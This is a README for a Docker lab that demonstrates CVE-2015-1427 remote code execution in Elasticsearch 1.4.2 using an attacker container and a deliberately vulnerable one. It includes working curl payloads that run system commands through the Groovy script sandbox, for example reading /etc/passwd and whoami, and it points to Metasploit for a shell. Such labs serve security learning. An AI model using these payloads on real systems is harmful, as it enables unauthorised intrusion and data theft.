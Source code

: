 # Remote Code Execution in a vulnerable Elasticsearch container

PoC rely on *CVE-2015-1427* exploitation https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427


## Pre-requisites
- docker
- docker-compose

#### Launch containers

`docker-compose up -d`

Enter in attacker container and play a little with Elastic RCE with `docker exec -it elhackstic_badguy_1 bash`

Check if elastic is responding
```bash 
ping elhackstic_vulnerable_1
```

or 
```bash
curl http://elhackstic_vulnerable_1:9200
```

elastic API will reply :
```
{
  "status" : 200,
  "name" : "Namorita",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.4.2",
    "build_hash" : "927caff6f05403e936c20bf4529f144f0c89fd8c",
    "build_timestamp" : "2014-12-16T14:11:12Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.2"
  },
  "tagline" : "You Know, for Search"
}
```

example of data creation :
```bash 
curl -XPUT 'http://elhackstic_vulnerable_1:9200/twitter/user/yren' -d '{ "name" : "Wu" }'

{"_index":"twitter","_type":"user","_id":"yren","_version":1,"created":true}
```

#### Let's play with code injection

Information gathering

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.System\").getProperty(\"os.name\")"}}}'
```

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getText()"}}}'
```

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}'
```

```
...
        "payload" : [ "root\n" ]
...
```

Finally you easily can get a shell with metasploit.
or try https://github.com/XiphosResearch/exploits/tree/master/ElasticSearch


#### Sources

https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
https://www.exploit-db.com/exploits/36337/
https://www.exploit-db.com/exploits/36415/